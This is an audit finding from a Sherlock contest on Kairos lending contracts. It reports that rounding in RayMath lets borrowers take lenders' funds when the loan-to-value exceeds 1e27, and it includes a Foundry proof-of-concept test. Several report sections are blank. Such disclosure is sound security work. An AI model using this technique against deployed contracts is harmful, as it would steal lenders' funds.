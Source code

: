 usmannk

high

# Borrowers may steal funds from lenders

## Summary

Due to limited precision in RayMath, if an offer is made with TVL > `1e27` which is possible for high decimal tokens then borrowers may steal funds from lenders.

## Vulnerability Detail

If the amount loaned is less than the `LTV*1e27`, then the shares minted to the lender for a position are zero. This lender has no claim to the lent amount in liquidation, and all proceeds go to the borrower. This is because the amount of lender shares is directly minted as the borrowed amount divided by the LTV, which may round to zero.

https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/BorrowLogic/BorrowHandlers.sol#L46-L47

The following test exemplifies the issue:

```solidity
function testSteal() public {
    BorrowArg[] memory borrowArgs = new BorrowArg[](1);
    Offer memory offer = Offer({
            assetToLend: money,
            loanToValue: 1e27+1,
            duration: 2 weeks,
            expirationDate: block.timestamp + 2 hours,
            tranche: 0,
            collateral: getNft()
        });
    uint256 currentTokenId;

    getFlooz(signer, money, type(uint256).max);

    OfferArg[] memory offerArgs = new OfferArg[](1);
    currentTokenId = getJpeg(BORROWER, nft);
    offer.collateral.id = currentTokenId;

    offerArgs[0] = OfferArg({
        signature: getSignature(offer),
        amount: 1,
        offer: offer
    });
    borrowArgs[0] = BorrowArg({nft: NFToken({id: currentTokenId, implem: nft}), args: offerArgs});

    vm.prank(BORROWER);
    kairos.borrow(borrowArgs);

    assertEq(kairos.position(0).share.gt(Ray.wrap(0)), true);
}
```

## Impact

## Code Snippet

## Tool used

Manual Review

## Recommendation
